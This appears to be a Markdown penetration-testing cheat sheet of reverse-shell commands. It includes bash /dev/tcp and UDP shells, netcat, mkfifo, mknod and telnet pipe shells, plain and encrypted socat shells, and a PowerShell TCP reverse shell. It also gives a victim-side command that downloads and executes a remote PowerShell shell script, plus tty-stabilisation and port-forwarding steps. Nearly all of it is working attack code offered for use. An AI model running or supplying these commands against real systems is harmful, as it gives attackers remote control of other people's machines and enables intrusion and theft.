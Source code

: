 # Linux fully interactive tty

```bash
python -c 'import pty; pty.spawn("/bin/bash")' || python3 -c 'import pty; pty.spawn("/bin/bash")'
# CTRL + Z
stty raw -echo
fg
reset
export SHELL=/bin/bash && export TERM=xterm-256color
# open up a new terminal and run the below to get the stty size command to paste
size=$(stty size); rows=$(echo $size | cut -d' ' -f1); cols=$(echo $size | cut -d' ' -f2); echo "stty rows $rows columns $cols"
```

# Windows better tty using `rlwrap`
1. install rlwrap using `apt install rlwrap`
2. using rlwrap before your standard listener `rlwrap nc -lvnp <LPORT>`

# Windows fully interactive (Windows 10 / Windows Server 2019 version 1809)
## on attacker machine:
`stty raw -echo; (stty size; cat) | nc -lvnp <LPORT>`
## on victim machine:
`IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell <LHOST> <LPORT>`

# Bash
## normal
```bash
bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1
```
## make it non-blocking
```bash
bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1 &
```
## using `exec` 
```bash
exec 5<>/dev/tcp/<LHOST>/<LPORT>; cat <&5 | while read line; do $line 2>&5 >&5; done
```
## Bash/Netcat:
```bash
nc -nv <LHOST> <LPORT> -e /bin/bash
```
## mkfifo:
```bash
rm /tmp/pipe; mkfifo /tmp/pipe; /bin/sh -i < /tmp/pipe 2>&1 | nc <LHOST> <LPORT> > /tmp/pipe; rm /tmp/pipe
```
## mknod:
```bash
rm /tmp/pipe; mknod /tmp/pipe p 2>/dev/null && nc <LHOST> <LPORT> 0</tmp/pipe | /bin/bash 1>/tmp/pipe; rm /tmp/pipe
```
## Bash UDP
### victim:
```bash
sh -i >& /dev/udp/<LHOST>/<LPORT> 0>&1
```
### attacker: 
```bash
nc -u -lvp <LPORT>
```
## Telnet
```bash
rm /tmp/pipe; mknod /tmp/pipe p && telnet <LHOST> <LPORT> 0</tmp/pipe | /bin/bash 1>/tmp/pipe; rm /tmp/pipe
```
---
## socat: reverse shell (with forking and address reuse)
### on attacker
```bash
socat -d -d TCP4-LISTEN:443,reuseaddr,fork STDOUT
```
### on victim (NOTE: you can use `netcat` to connect back to socat listener without problems)
```bash
socat TCP4:127.0.0.1:443 EXEC:/bin/bash
```
**OR**
```bash
nc -nv 127.0.0.1 443 -e /bin/bash
```
## socat: encrypted reverse shell (with forking and address reuse)
### step #1: on attacker machine, generate a create a key and a certificate associated with it.
```bash
openssl req -newkey rsa:2048 -nodes -keyout socat.key -x509 -days 1000 -out socat.crt
```
### step #2: on attacker machine,create a pem file from the key and crt files
```bash
cat socat.key socat.crt > socat.pem
```
### step #3: on attacker machine, listen on a port of your choice
```bash
socat -d -d OPENSSL-LISTEN:443,cert=socat.pem,verify=0,reuseaddr,fork STDOUT
```
### step #4: on the victim, send back a bash shell
```bash
socat OPENSSL:127.0.0.1:443,verify=0, EXEC:/bin/bash
```
## socat: encrypted file transfer
### on machine hosting the file:
```bash
socat -d -d OPENSSL-LISTEN:443,cert=socat.pem,verify=0,reuseaddr,fork file:file.txt
```
### on machine receiving the file:
```bash
socat OPENSSL:127.0.0.1:443,verify=0 file:file.txt,create
```
## socat: port forwarding
### scenario: if web port port 8000 is only listening locally on a machine that has socat. we can bind it to the outside on port 1234 and expose it to the outside:
```bash
socat TCP-LISTEN:1234,fork,reuseaddr, tcp:127.0.0.1:8000 &
```
### if we curl the address on port 1234
```bash
curl http://192.168.145.131:1234/index.html
```
### we get a response
```
<h1>hosted only internally</h1>
```
---

## Powershell reverse shell
```powershell
$lhost = '<LHOST_IP>'
$lport = <LPORT>
$client = New-Object System.Net.Sockets.TCPClient($lhost,$lport);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
	$sendback = (iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush();
}
$client.Close();
```

---